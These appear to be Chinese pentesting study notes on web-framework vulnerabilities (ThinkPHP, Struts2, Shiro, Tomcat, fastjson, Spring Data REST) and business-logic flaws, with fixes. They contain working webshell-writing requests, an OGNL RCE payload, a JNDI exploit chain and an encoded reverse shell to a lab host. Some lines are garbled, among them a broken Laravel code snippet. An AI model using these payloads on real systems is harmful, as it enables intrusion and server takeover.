- 漏洞`产生`:当ThinkPhp开启了`多语言功能`时,攻击者可以通过`lang`参数和`目录穿越`实现`文件包含`,当存在其它扩展模块如`pear`扩展时,攻击者可进一步利用文件包含实现远程代码执行
- `限制`:该漏洞最大的限制点就是被包含文件的`后缀`一定是`php`,要包含一个php文件,利用的方式就少了,但我们可以利用`pearcmd`
- 影响`版本`:`6.0.1 < ThinkPhp < 6.0.13`

#### ThinkPhp`6.0.12`文件包含

- 写`webshell`

- ```php
  ?lang=../../../../../../../../../usr/local/lib/php/pearcmd&+config-create+/<?=@eval$_REQUEST['cmd']);?+/tmp/cmd.php
  ```

  

- 写`文件`-->shell.php

- ```php
  ?lang=../../../../../../../../../usr/local/lib/php/pearcmd&+config-create+/&<?=phpinfo()?>+/tmp/shell.php
  ```

  

- 写`文件`-->shell123.php

- ```php
  ?lang=../../../../../../../../../tmp/shell123
  ```



- 写`webshell`

- ```
  ?lang=../../../../../../../../../usr/local/lib/php/pearcmd&+config-create+/<?=eval($_REQUEST['cmd']);?>+/tmp/cmd.php
  ```


- 包含文件`连接shell`

- ```
  ?lang=../../../../../../../../../tmp/cmd&cmd=phpinfo();
  ```


- 连接`shell`



------

#### Laravel漏洞

- 漏洞`原理`:当Laravel开启`Debug`模式时,由于其自带的`Ignition`组件对`flie_get_contents()`和`flie_put_contents()`函数的不安全使用,攻击者可以通过发送恶意请求,构造恶意log文件等方式触发`Phar`反序列化,最终造成`远程代码执行`

- 影响`版本`:Laravel < 8.4.2

- Laravel是一个由Taylor Otwell所创建，免费的开源 PHP Web 框架。在开发模式下，Laravel使用了lgnition提供的错
  误页面，在lgnition 2.5.1及之前的版本中，有类似这样的代码:

  ```php
  $contents = file get contents($parameters['viewFile',); file put contents($parameters['viewfile”, $contents);
  ```

  攻击者可以通过phar://协议来执行反序列化操作，进而执行任意代码。

  


------

#### Struts2漏洞

- 漏洞`产生`:在使用基于`jakarta`插件的文件上传功能时,有可能存在`远程命令执行`.用户可在上传文件时通过修改`http请求头`中的`Content-Type`值来触发该漏洞,执行系统命令
- 影响`版本`:`2.5 - 2.5.10` `2.3.5 - 2.3.31`

> 漏洞复现

```php
Content-Type:"%{(#nike='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='whoami').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}"boundary=----WebKitFormBoundaryXx80aU0pu6vrsV3z
```



#### 判断strus2框架

- 常规办法:
  - 1、通过页面回显的错误消息来判断，页面不回显错误息时则无效。
  - 2、通过网页后缀来判断，如`.do.action`，有可能不准。
    3、判断` /struts/webconsole.html `是否存在来进行判淤需要 devMode 为 true。
- 其它的方法
  - 通过 actionErrors。要求是对应的 Action 需要继承自actionsupport 类。
  - 利用方法:如原始 URL为 https://threathunter.org/则检测所用的 URL为 https://threathunter.org/?actionErrors=1111
    uts2 构建的。异常包括但不限于以下几种现象如果返回的页面出现异常，则可以认定为目标是基于 St
    - 1、页面直接出现 404 或者 500 等错误。
    - 2、页面上输出了与业务有关错误消息，或者1111被回显到了页面上。
    - 3、贡面的内容结构发生了明显的改变。
    - 4、页面发生了重定向。

------

#### Shiro漏洞

> Shiro550漏洞复现

- `Apache Shiro`框架提供了记住密码的功能(RememberMe)，用户登录成功后会生成经过加密并编码的cookie。在服务端对`rememberMe`的`cookie`值，先base64解码然后AES解密再反序列化，就导致了反序列化RCE漏洞。
  那么，Payload产生的过程:
  命令=>序列化=>AES加密=>base64编码=>RememberMe Cookie值
  在整个漏洞利用过程中，比较重要的是`AES加密`的密钥，如果没有修改默认的密钥那么就很容易就知道密钥了.
- 影响`版本`:`Apache Shiro` < `1.2.4`
- 特征:返回包中会包含`rememberMe=deleteMe`字段,这种情况大多会发生在登录处，返回包里包含remeberMe=deleteMe字段，
  这个是在返回包中(Response),如果返回的数据包中没有remeberMe=deleteMe字段的话，可以在数据包中的Cookie中添加
  remeberMe=deleteMe字段这样也会在返回包中有这个字段


> Shiro721漏洞复现

- 在Shiro721漏洞中，由于Apache Shiro cookie中通过 AES-128-CBC 模式加密的rememberMe字段存在问题，用户可通
  过Padding Oracle Attack来构造恶意的rememberMe字段，并重新请求网站，进行反序列化攻击，最终导致任意代码执行
  虽然使用Padding Oracle Attack可以绕过密钥直接构造攻击密文，但是在进行攻击之前我们需要获取一个合法用户的
  Cookie.
- 漏洞流程
  登录网站获取合法Cookie
  使用rememberMe字段进行Padding Oracle Attack，获取intermediary
  利用intermediary构造出恶意的反序列化密文作为Cookie
  使用新的Cookie请求网站执行攻击
  影响版本
- Apache Shiro <= `1.4.1`
  特征判断
  响应包中包含字段remember=deleteMe字段


> Shiro721 和 Shiro550 的差异?
> Shiro721和Shiro550一样，都是生成恶意RememberMe Cookie反序列化执行代码，不同之处是RememberMe cookie的生成方式。
> shiro550 序列化利用需要知道AES加密的key，使用这个key直接构造Payload。
> Shiro721 序列化是利用已登录用户的合法RememberMe Cookie值，通过服务器对填充密钥的不同响应，从而判断加密值
> 是否被正确填充，构造Payload。

------

#### Tomcat漏洞

##### tomcat任意文件写入漏洞*

> Tomcat任意文件写入

- Tomcat任意文件写入漏洞

- CVE-2017-12615

- 漏洞`产生`:当 Tomcat 启用了 HTTP PUT 请求方法(将 readonly 初始化参数由默认值设置为 false)，攻击者将有可能可通过精心构造的攻击请求数据包向服务器上传包含任意代码的 JSP 文件，JSP文件中的恶意代码将能被服务器执行。导致服务器上的数据泄露或获取服务器权限。

- 漏洞`危害`:可以通过PUT方法写webshel，从而控制服务器,

- 漏洞`检测`:通过访问:Http://localhost:8080，抓包后发起PUT请求，根据响应包为201即可确定存在该漏洞。

- `复现`:

  ```cmd
  直接利用PUT方法写webshel
  
  Webshell内容利用工具生成
  Tomcat默认不允许写isp文件后缀
  此处根据不同系统特性绕过
  Linux: jsp/
  Windows: jsp%20和jsp::$DATA
  ```

  ------

##### Tomcat远程部署漏洞

> Tomcat远程部署漏洞

- 漏洞`产生`:这是JSP/PHP网站远程部署的一个工具，管理员只需要远程上传一个WAR格式的文件，便可以发布到网站，方便了于发人员部署代码的同时，也方便了攻击者上传木马。
- 漏洞`危害`:攻击者可以通过构造war进行上传木马文件，从而控制服务器
- 漏洞检测:通过访问:ttp://localhost:8080/manager 管理地址，
  尝试`弱口令`或默认口令，若能登陆成功，则存在此漏洞。
- 漏洞`复现`过程:通过弱密码登录管理界面` tomcat/tomcat`


- 使用`弱口令`进入后台,上传`war包`(准备一个shell,将其压缩成.rar,改后缀为`.war`)

  


------

##### Tomcat任意文件读取漏洞*

> Tomcat任意文件读取

- CVE-2020-1938
- 漏洞`产生`:由于Tomcat在处理AJP请求时,未对请求做任何验证导致产生任意文件读取漏洞。
- CVE-2020-1938 又名GhostCat，由于Tomcat AJPt议设计上存在缺陷，攻击者通过 Tomcat AJP Connector 可件，例如可以读取 webapp 配置文件或源代码读取或包含 Tomcat 上所有 webapp 目录下的任意文信息。
- 漏洞`危害`:可以通过tomcat AJP协议读取文件，查看服务器敏感
- 漏洞`检测`:幽灵猫漏洞。通过工具扫描开放8009端口即存在CVE-2020-1938l

```php
python2 CVE-2020-1938.py 192.168.100.40 -p 13894 -f /WEB-INF/web.xml
```

------

#### JBOS漏洞

> JBoss 5.x/6.x 反序列化漏洞

- 漏洞`编码`:CVE-2017-12149

- 漏洞描述:利用漏洞可在未经任何身份验证的服务器主机上执行任意代码，

- 漏洞`分析`:该漏洞为 Java反序列化错误类型，存在于 Jboss 的 Httplnvoker 组件中的 ReadOnlyAccessFilter 过滤器该过滤器在没有进行任何安全检查的情况下尝试将来自客户端的数据流进行反序列化，从而导致了漏洞。

- 漏洞复现:使用账号密码`admin vulhub`登录后台


------

#### WebLogic

#### weblogic10 cve-2017漏洞复现

> weblogic10 cve-2017漏洞复现

- 端口`7001`


------

#### weblogic 远程部署漏洞

> 远程部署漏洞复现

- 默认账号密码`weblogic Oracle@123`


#### weblogic-cve-2023-21839*

> weblogic-cve-2023-21839

------

### 组件与应用漏洞

#### fastjson反序列化漏洞

> 漏洞背景

- 漏洞`原理`:Fastjson 在解析json的过程中，支持使用autoType来实例化某一个具体的类，并调用该类的set/get方法来访问属性。fastjson 默认使用 @type 指定反序列化任意类，攻击者可以通过在 java 常见环境中寻找能够构造恶意类的方法，通过反序列化的过程中调用的 getter/setter 方法，以及目标成员变量的注入来达到传参的目的，最终形成恶意调用链。

- 利用`流程`

  1.首先开启HTTP服务器，并将恶意类放在目录下
  2.开启恶意RMI服务器
  3.攻击者控制url参数为上一步开启的恶意RMI服务器地址
  4.恶意RMI服务器返回ReferenceWrapper类
  5.目标 (JNDI Client)在执行lookup操作的时候，在decodeObject中将ReferenceWrapper变成Reference
  类，然后远程加载并实例化我们的Factory类(即远程加载我们HTTP服务器上的恶意类)，在实例化时触发静
  态代码片段中的恶意代码

##### 环境搭建

- 安装JDK1.8[[下载地址](https://www.oracle.com/java/technologies/javase/javase8-archive-downloads.html)]

```sh
mkdir -p /usr/local/java
cp jdk-8u251-linux-x64.tar.gz  /usr/local/java
tar -zxvf jdk-8u251-linux-x64.tar.gz
```

- 配置环境变量

```sh
vim /etc/profile

# 进入环境变量
JAVA_HOME=/usr/local/java/jdk1.8.0_251 
PATH=$PATH:$HOME/bin:$JAVA_HOME/bin
export JAVA_HOME
export PATH

# 通知Java目录
update-alternatives --install "/usr/bin/java" "java" "/usr/local/java/jdk1.8.0_251/bin/java" 1
update-alternatives --install "/usr/bin/javac" "javac" "/usr/local/java/jdk1.8.0_251/bin/javac" 1
update-alternatives --install "/usr/bin/javaws" "javaws" "/usr/local/java/jdk1.8.0_251/bin/javaws" 1
update-alternatives --install "/usr/bin/javaws" "javaws" "/usr/local/java/jdk1.8.0_251/bin/javaws" 1
```

- 切换Java版本

```sh
update-alternatives --config java
```

------

- 利用`marshalsec`编译开启`RMI`服务
- 利用marshalsec编译并开启RMI服务:
  1. git clone https://github.com/mbechler/marshalsec.git 下载项目文件
  2. apt-get install maven 安装maven项目管理工具
  3. cd marshalsec 切换至marshalsec目录
  4. mvn clean package -DskipTests 使用maven项目管理工具打包文件

##### 目录结构


##### 编辑`恶意类`代码


```php
//使用javac编译成.class
javac fastjsonshell.java
```


```cmd
//在当前目录开启web服务
python3 -m http.server 9090
```


```cmd
//利用marshalsec项目启动RMI服务器,监听9999端口
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer "http://192.168.136.219:9090#fastjsonshell" 9999
```


```cmd
//监听 8888 端口
nc -lvvp 8888
```

##### BP抓包发送POST数据

```http
POST / HTTP/1.1
Host: 192.168.41.54:8090
Cache-Control: max-age=0
Accept-Language: zh-CN
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.6478.57 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Content-Type: application/json
Content-Length: 0

{
 		"b":{
			"@type":"com.sun.rowset.JdbcRowSetImpl",
			"dataSourceName":"rmi://192.168.41.219:9999/fastjsonshell",
			"autoCommit":true
	}
}
```


------

#### Spring Data Rest远程命令执行命令

> 漏洞背景

- 介绍:Spring-data-rest服务器在处理PATCH请求时，攻击者可以构造恶意的PATCH请求并发送给spring-date-rest服务器，通过构造好的JSON数据来执行任意Java代码。
- 影响`版本`
  Spring Data REST versions < 2.5.12,2.6.7, 3.0 RC3
  Spring Boot version < 2.0.0M4
  Spring Data release trains < Kay-RC3

```python
//使用python交互式命令行将 执行命令转化成为 ascii
",".join(map(str, (map(ord,"bash -i>&/dev/tcp/192.168.41.219/8888 0>&1"))))

'98,97,115,104,32,45,105,62,38,47,100,101,118,47,116,99,112,47,49,57,50,46,49,54,56,46,52,49,46,50,49,57,47,56,56,56,56,32,48,62,38,49'
```


------


------


------


------

- 发现不对劲以后对`http://192.168.41.54:8080/customers/1`抓包
- 修改为`PATCH`请求


------

- `Base64`编码 


- `Ascii`编码


- 去掉多于的部分

```ascii
98,97,115,104,32,45,99,32,123,101,99,104,111,44,89,109,70,122,97,67,65,116,97,83,65,43,74,105,65,118,90,71,86,50,76,51,82,106,99,67,56,120,79,84,73,117,77,84,89,52,76,106,81,120,76,106,73,120,79,83,56,52,79,68,103,52,73,68,65,43,74,106,69,61,125,124,123,98,97,115,101,54,52,44,45,100,125,124,123,98,97,115,104,44,45,105,125
```

```php
PATCH /customers/1 HTTP/1.1
Host: 192.168.41.54:8080
Cache-Control: max-age=0
Accept-Language: zh-CN
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.6478.57 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
If-None-Match: "0"
If-Modified-Since: Sun, 22 Sep 2024 08:41:10 GMT
Connection: keep-alive
Content-Type: application/json-patch+json
Content-Length: 458

[{ "op": "replace", "path": "T(java.lang.Runtime).getRuntime().exec(new java.lang.String(new byte[]{98,97,115,104,32,45,99,32,123,101,99,104,111,44,89,109,70,122,97,67,65,116,97,83,65,43,74,105,65,118,90,71,86,50,76,51,82,106,99,67,56,120,79,84,73,117,77,84,89,52,76,106,81,120,76,106,73,120,79,83,56,52,79,68,103,52,73,68,65,43,74,106,69,61,125,124,123,98,97,115,101,54,52,44,45,100,125,124,123,98,97,115,104,44,45,105,125}))/lastname", "value": "vulhub" }]
```


> log4j*

****

### 逻辑漏洞

#### 业务逻辑漏洞的产生和常见漏洞

- 漏洞的`产生`:
  - 由于`程序逻辑不严谨`或逻辑`太过复杂`,导致一些逻辑分支`不能正常处理`或`处理错误`,统称为业务逻辑漏洞
  - 简单理解:就是开发人员思维逻辑不够严谨造成的漏洞
- 关注`重点`:
  - 业务流程
  - http/https 请求分析
- `常见漏洞`:
  - 身份认证安全漏洞
  - 支付逻辑漏洞(数据篡改)
  - 任意密码找回漏洞
  - 验证码突破漏洞
  - 接口调用安全
  - 未授权访问漏洞
  - 权限绕过漏洞

------

##### 登录模块---身份认证安全

- 漏洞产生:有些网站对身份认证模块`没有做好安全防护`,导致漏洞产生

- 绕过身份认证办法:

  - 暴力破解,撞库
  - Cookie & Session (重要)
  - 加密

- `暴力破解`

  - 测试方法:在`没有验证码`限制或者`一次验证码可以多次复用`

    - 爆破用户名:当输入的用户名`不存在时`,会显示`请输入正确的用户名`或者`用户名不存在`
    - 已知用户名:admin,密码进行`字典爆破`
    - 使用一个`常用密码`,比如123456`对大量用户`进行爆破

    

    修复方法:

    - `增加验证码`,登录失败的时候,`变换验证码`(验证码不能被工具识别)
    - `限制登录频率`,例如五分钟内登录失败次数超过10次锁定账户一小时
    - `二次验证`,可以添加手机验证码或邮箱验证码

- `撞库`

  - 测试方法:通过收集互联网`已泄露的用户和密码信息`,生成对应的字典,尝试`批量登录其它网站`后,得到一些可以登录的用户,很多用户在不同网站使用的是相同的账号密码,因此可以通过获取用户在A网站的账户从而尝试登录B网址.
  - 修复方法:养成用户`良好的上网行为习惯`,在不同的网站注册时尽量不使用相同的账号密码

- `Cookie和Session类`

  - Cookie:是指某些网站为了`辨别用户身份`,进行session跟踪而`存储在用户本地终端上的数据`(通常经过加密),我们俗称浏览器缓存
  - Session:在网络应用中,称为`会话控制`,Session对象存储`特定用户会话所需的属性及配置信息`.当用户在应用程序之间跳转时,存储在Session对象中的 变量不会丢失,而是在整个用户`会话中一直存在`下去.当用户请求来自应用程序的WEb页面时,如果该用户还没有会话,则WEB服务器会自动创建一个Session对象,与Cookie有一定的相同之处

- `Cookie伪造`:通过修改cookie中的`某个参数`来实现登录其它用户

- 测试方法:

  - 使用一个账号登录,找一个`可以证明身份的页面`,例如首页欢迎xxx或者是个人中心显示昵称的地方
  - 刷新该页面的拦截请求,`观察cookie中的字段和值`,例如userid=xxx,修改cookie中的值,把xxx改成admin
  - forward放行,页面显示admin信息,则存在此问题

- 修复方法:对客户端标识的用户信息,使用`session会话认证方式`,避免通过cookie去仿冒其它人的身份

- `Seesion会话固定攻击`:一种`诱骗`受害者人`使用攻击者指定的会话标识`的攻击手段,利用了服务器的session不变的机制

- 攻击步骤

  - 攻击者通过某种手段`重置`目标用户的`session id`,然后监听用户会话状态
  - 目标用户携带攻击者设定的session id 登录站点
  - 攻击者通过 session id 获得合法的会话

- 攻击者重置session id的方法:通过xss,嗅探等方法取得用户的session,修改数据包

- 修复方法:每次登录成功之后`重新生成session`,sessionid闲置过久时,进行重置session id

- `加密测试`

  - 概念:有些网站在`前端加密`,然后传到`后台`直接`和数据库里的值`做`对比`,这时抓包就知道了加密方式,然后做`暴力破解`

- 测试方法:

  - 对账号密码`登录`,`拦截请求`,查看传输信息是不是通过一些`加密方式对帐号和密码进行了加密`,如果有则存在此问题
  - 对于前端加密后的密码进行暴力破解测试时,可以在bp的intrusder模块中的`payload processing`中选择加密方式
  - 修复方法:把`加密对比`的方法放到`后台去执行`


------

##### 数据篡改---业务一致性

- 手机号篡改:
  - 步骤:`抓包`修改手机密码,之后进行`越权判断`,进入其它人的页面进行操作
  - 修复:通过`session`机制`判断身份`,还需校验`手机号与登录者`身份`是否一致`
- 邮箱和用户名篡改:
  - 步骤:抓包修改用户名和邮箱为其他用户或邮箱
  - 修复:通过`session`机制`判断身份`,如需传输邮件,要`判断发件人与session一致`
- 订单ID篡改:
  - 步骤:注册一普通用户,修改遍历订单号,获取其他用户订单详情(平行越权)
  - 修复:查看订单是通过`session`判断用户身份,做好`平行权限控制`
- 商品编号篡改:
  - 步骤:提交订单时,抓包修改商品标号,导致`商品与价格不符`却`交易成功`
  - 修复:`金额不在客户端传入`,防止被篡改,如必要,则务必`检查交易金额与商品价格`或对`支付金额做签名校验`
- 用户id篡改:
  - 步骤:抓包查看用户的id,修改id(+-1),查看是否能查看其它用户id信息
  - 修复:通过session机制判断身份,如果必须用`userid参数`,要判断`与session是否一致`
- 金额数据篡改:
  - 步骤:在提交订单时进行抓包,修改支付的金额或折扣等相关数据
  - 修复:商品信息如`金额`,`折扣`等`原始数据校验`应来自于`服务器端`,不应该接受客户端传来的值
- 商品数量篡改:
  - 步骤:抓包修改商品数量等字段,将请求中商品数量`修改为负数或0`,查看能否以修改后的数量完成业务流程
  - 修复:产生`异常的交易`行为时直接`限制,阻断`
- 本地js数据篡改:
  - 步骤:部分应用程序通过`JavaScript处理用户提交`的请求,通过修改JavaScript脚本,测试修改后的数据是否影响到用户
  - 修复:服务器校验,跨平台支付调用接口,要做好`数据的完整性校验`,确保一致性
- 最大数限制突破:
  - 步骤:很多商品限制用户购买数量时,服务器仅在页面通过`js脚本限制`,没有在服务器端校验用户提交的数量,通过`抓包修改商品最大数限制`,将请求中的商品数量修改为`大于最大数量限制`,查看能否以修改后的数量完成业务流程
  - 修复:每次提交都对其对应各项信息做`强校验`

------

##### 业务授权安全

- 越权漏洞分类
  - `水平`越权:指`相同权限`的`不同用户`可以`相互访问`
  - 举例:两个`不同的公司`A和B,通过修改请求,公司A可以任意修改B公司的员工,部门,考勤等信息
  - `垂直`越权:指使用`权限低`的用户`可以访问权限较高`的用户
  - 举例:`同一个公司`不同权限的管理员A和B,通过修改请求.管理员A可以修改不在他管辖范围内的员工,考勤,工资等
- 检测手段:
  - 查看所有敏感涉及到用户的操作是否有除了`UId之外的验证方式`,没有的话构造uid访问,可检查是否有漏洞
  - 如果有验证参数,尝试是否可以预知的或者可以猜测出来的
- 发生越权行为的修复方法:
  - 涉及用户信息的操作需要`验证用户身份`,比如查看各种用户信息的情况下,不能只根据uid去搜索,应该再次进行身份验证
  - 特别敏感的操作应该进行`二次操作`

------

#### 任意密码找回的方法

- 用户凭证暴力破解
- 返回凭证
- 邮箱弱token
- 用户凭证有效性
- 重新绑定手机和邮箱
- 服务器验证
- 用户身份验证
- 找回步骤
- 本地验证
- token生成可控
- 注册覆盖
- session覆盖

------

##### 用户凭证暴力破解

- 概念:常见的是找回密码的验证码为4位，并且`服务端没有加以限制`，我们可以通过`爆破出验证码`的方式来找回密码
- 步骤:
  - 验证码的位数:4 or 6，验证码有效时间:1min-15min
  - `验证码爆破`防护绕过
- 修复:
  - 增加验证码`复杂性`和`长度`
  - `限制请求修改次数`

------

##### 返回凭证

- 返回凭证的三种形式
  - url返回凭证
  - 抓包返回凭证
  - 凭证在页面中
- 方法:
  - URL返回凭证:使用firefox的firebug`查看请求链接`,看链接中是否有验证码等密码找回凭证
  - 抓包直接返回:根据手机号找回密码后`抓包`，可以发现验证码直接显示 verifycode=xxxx，如果信息被加密，解密即可(其他信息同理)
  - 密码找回凭证在页面中:通过密保问题找回密码，`查看源码`，密保问题和答案就在源码中显示

------

##### 邮箱弱token

- 获取邮箱弱token的方法:
  - Unix时间戳 + md5
  - 例如:通过邮箱找回密码，正常流程去邮箱查看重置密码链接，发现链接处有一串 md5 加密字符串。字符串解密，类似1491293277(10位)，可以判断为Unix时间戳。
  - `重置他人密码`只需利用他人邮箱发送`重置密码邮件`，在短时间内对`Unix时间戳`进行`暴力破解`，即可获得`重置密码的链接`
  - 用户名:`重置密码链接`直接`使用用户名`进行区别，改变用户名即可更改他人密码
  - 服务器时间:利用两个帐号`同时`点击`找回密码`，去邮箱査看找回密码的链接，发现两者的`随机 token 只差1-2`，而且可以猜测出为服务器时间。所以可以用`一个未知帐号`和`一个已知帐号`同时点击找回密码，稍微`遍历随机 token`，就可以`构造出未
    知帐号的密码找回链接`

------

##### 用户凭证有效

- 通过用户凭证有效性修改密码:
  - 短信验证码:
    - 通过`他人手机号`找回密码，抓包，将他人手机号`替换成自己的手机号`，获取验证码，提交后修改密码
    - 通过`自己手机号`找回密码，获取验证码后抓包，将数据包中的`username改为他人用户名`，提交后成功修改他人密码
  - 邮箱 token
    - 通过邮箱找回密码，访问链接重置密码，输入新密码提交时抓包，虽然有token，但依然可以直接`修改用户ID`进而修改密码

------

##### 重新绑定

- 手机绑定:
  - 给已知账户绑定手机，发现绑定手机的 URL 链接中有 uid 参数，`修改 uid参数为他人的`，即可实现`将他人的账户绑定上自己的手机`，之后`通过手机修改密码`
  - 修改`个人资料处抓包`，修改`userid为他人`，修改`手机号为自己的手机`，即可实现将`他人的账户绑定上自己的手机`，之后通过手机来修改密码
- 邮箱绑定:
  - 通过邮箱找回密码，URL链接中`修改用户ID为他人`，邮箱不变，之后通过链接可以`将他人账户绑定为自己的邮箱`，之后通过邮箱找回密码

------

##### 服务器验证

- 最终提交步骤
- 使用邮箱找回密码，通过链接至修改密码页面，修改密码后提交、抓包，获得`Uid参数，修改为他人`，即可修改其他用户密码
- 服务器验证的验证逻辑为空(绕过认证)
  - 通过密码保护问题找回密码，抓包，`将密码保护问题删除，直接修改密码`，提交
  - 注:此处密保问题和新密码在同一页面

------

##### 跳过验证

- 跳过验证步骤、找回方式、直接到设置新密码页面
  - 正常流程下，密码找回，`查看最后设置新密码页面的 URL`，记录下来。继续返回密码找回处，输入其他用户名，提交找回申请，直接访问上面记录下的修改密码页面，成功修改密码
  - 正常流程下，`修改密码页面抓包`，修改其中的`USERNAME COOKIE`为其他用户(有可能会经过编码，比如 base64)
    提交即可修改其他用户密码，如果抓包其中`有 step 参数`，可以修改这个参数`为最后一步(比如:5)`，提交便可`略过之前的步骤`

------

##### 本地验证

- 在本地验证服务器的返回信息，确定是否执行密码重置，但是其返回信息是可控的内容，或者是可以获得的内容
  - 例如:通过手机找回密码，随便输入验证码，抓包，发送，拦截response包(Burpsuite 中可以选取 dointercept -->response to this request)，修改response包中的`返回码，返回包的内容`，继续发送，说不定就可以绕过验证，直接跳到修改密码的页面
- 发生短信等`验证信息`的动作`在本地执行`，可以通过`修改request包`进行控制
  - 例如:通过用户名找回密码，提交后会自动发送验证码到手机中，抓包，`修改手机为自己的手机`(如果其中有type 之类的参数，也可以尝试修改，有 emai 之类的参数，可以尝试删除内容)，发送修改后的包，`手机成功接收验证码`。输入验证码，继续发送，抓包，如果有type 之类的参数，可以继续尝试修改，发送就可以成功修
    改密码

------

##### token生成可控

- 通过邮箱找回密码，正常流程下，抓包查看提交验证码后返回的数据，有加密字符串，这个加密字符串和后面重新设置新密码URL链接中的加密字符串一样，所以可以利用这个加密字符串
- 根据上面提交验证码的抓包，`修改User` 为其他用户(User有可能会使用md5加密)，发送，就可以`返回其他用户的加密字符串`
- 重新返回到找回密码首页，利用`其他用户找回`，点下一步，到输入验证码处，`直接修改URL链接，加入加密字符串`，可以直接`绕过验证码`重置密码

------

##### 注册覆盖

- 举例:注册`重复的用户名`,例如admin,相当于修改了密码

- 中铁快运奇葩方式重置任意用户密码
- 在注册用户时，如果先输入用户名，在鼠标离开后会`校验用户名是否存在`，但是如果`最后输入用户名`，比如`输入一个已有的用户名`admin，在鼠标离开输入框并点击提交按钮后，虽然也会进行用户名是否存在的校验，但表单仍然提交上去了,这时候，我们会发现我们已经以admin的用户登录进来了，这时候用户的密码被改为我们之前填写的密码，但原用户的所有信息却没有改变，也就是说这时候我们获取了用户的信息，姓名、身份证、手机号等等。

------

##### session覆盖

- 举例:同一浏览器，首先输入`自己的账户`进行邮箱密码找回，`进入邮箱查看链接`，接着输入`他人账户`，进行密码找回，`返回`刚刚`自己的邮箱点击链接`，由于`session覆盖`导致了，这个链接成为了`修改他人密码的链接，成功修改他人密码`
- 案例:聚美优品任意修改用户密码(非爆破)
- 说明:通过自己账号忘记密码发送邮箱修改密码地址，不要点开邮件。回到修改账号，将用户名改为要修改的账号，再发送一个邮件，回到自己的邮箱，将之前的邮件打开，输入密码即可。

------

#### 验证码突破

- 暴力破解
- 时间,次数突破
- 回显测试
- 绕过测试

##### 暴力破解验证码

- 有的验证码输入正确一次，在一定时间内不用再输入。
- 有的验证码输入正确一次，会在你session中设定一个值，告诉服务器你已经通过验证码验证了。
- 有的验证码因为逻辑问题只是一个摆设，正常的逻辑为先对比验证码是否正确，再检测账号密码是否正确，反过来了

- `修复建议`:
  - 提高验证码的`长度,复杂度`
  - `限制`错误登录`次数,有效时间`
- 案例:
- 中国人寿某省公司逻辑漏洞可导致所有员工姓名、手机等敏感信息
- 说明:通过爆破获取他的姓名信息，输入手机号和验证码以后，点击获取验证码。验证码直接返回了

------

##### 时间,次数突破验证码

- 概念:重复提交携带验证码的数据包，查看返回包，判断次数
- 测试方法:埴写正确登录信息和验证码 ->抓取提交数据包->`复提交该数据包`->查看是否登录成功 ->登录成功则存在验证码重复使用问题
- 案例:
  - Step1.输入正确信息点击登录时抓包
  - Step2.抓包，通过修改imageField参数的大小来实现暴力提交，自设一个两位数数字字典作为payload
  - Step3.查看任意响应包是否登录成功，从结果来看，暴力重复提交的数据包均登录成功。

------

##### 回显突破验证码

- 概念:验证码直接由`客户端生成`，在`回显中显示`，可通过浏览器工具直接查看
- 测试方法:
  - 1.在源码中显示。源代码审计，搜索源码中有无验证码
  - 2.在COOKIE中显示。抓包时分析COOKIE中是否含有验证码
- 案例:
- Step1.输入相关信息
  Step2.抓包，得到验证码
  Step3.输入验证码。验证通过

------

##### 绕过验证码

- 漏洞成因:由于`逻辑设计缺陷`，可绕过验证，比如直接`删除COOKIE`或`验证码参数`可绕过、当验证不通过清空session时验证码参数值为空时绕过等。
- 测试方法:
  - 1.抓包，删除验证码字段，查看是否可以成功发送
  - 2.抓包，正常流程下，记录验证码后的数据包，替换目标包中内容，直接发送，查看是否可以直接绕过验证码
- 案例:
- Step1.输入正确账户信息和错误验证码，登录时抓包
  Step2.删除COOKIE
  Step3.客户端登陆成功

------

#### 接口调用安全

- 接口也叫做API(Application Programming Interface)翻译为“应用程序编程接口”，是一些`预先定义的函数`

- 目的是`提供应用程序`与`开发人员`基于某软件或硬件得以访问一组例程的能力，而又`无需访问源码`，或理解内部工作机制的细节

- 接口调用的几种分类:

  - ##### 重放攻击:

    - 在`短信、邮件调用业务`或`生成业务`数据环节中(类:短信验证码，邮件验证码，订单生成，评论提交等)，对其业务环节进行`调用(重放)`测试
    - 常见类型:短信轰炸、恶意注册
    - 修复:
      1.对评论提交等操作采用验证码机制，防止生成数据业务被恶意调用，
      2.短信/邮件`接口`，云要对接调用`频率进行控制`或者`上限限制`
      3.每一个订单(接口访问)使用唯一的token，提交一次后，`token失效`

  - ##### 内容编辑

    - 例如:点击获取短信验证码，`抓包`，可以`修改短信内容`，实施下一步攻击
    - 修复:从客户端处获取手机号、邮箱等账号信息，要与`Session中的凭证进行核验`，验证通过后才允许进行业务操作。

  - ##### 接口调用遍历漏洞

    - Web接口一般将常见的一些功能需求进行封装，通过传入不同的参数来获取对应的数据或者执行相应的功能，其中最常见的场景就是通过`接口传入id参数`，`返回对应id的信息`。此类接口如`请求合法性校验不严`，很容易出现`非授权访问`或者`越权访问`的问题。
    - 修复:
